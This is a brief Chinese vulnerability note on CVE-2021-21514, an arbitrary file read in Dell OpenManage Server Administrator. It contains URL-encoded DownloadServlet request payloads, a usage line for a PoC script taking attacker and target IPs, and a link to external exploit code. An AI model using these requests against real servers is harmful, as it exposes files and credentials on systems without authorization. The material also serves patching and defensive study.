# Dell OpenManage Server Administrator 任意文件读取 (CVE-2021-21514)

此漏洞利用已知的身份验证绕过来获取OMSA的Web管理界面有效会话cookie。攻击者可以构造请求从服务器读取任意文件。CVE-2021-21514为CVE-2020-5377的补丁绕过。

影响版本：Dell OpenManage Server Administrator < 9.5

通过URL编码绕过DownloadServlet方法：

```
https://omsa.server/{VID}/DownloadServle%74?help=Certificate&app=oma&vid={VID}&file=C:\some\file
https://omsa.server/{VID}/DownloadServlet?help=Certificate&app=oma&vid={VID}&file=C:\some\file
```

％74为t编码后的URL。

使用：

CVE-2020-5377.py <yourIP> <targetIP>:<targetPort>


poc.py:https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2020-5377_CVE-2021-21514

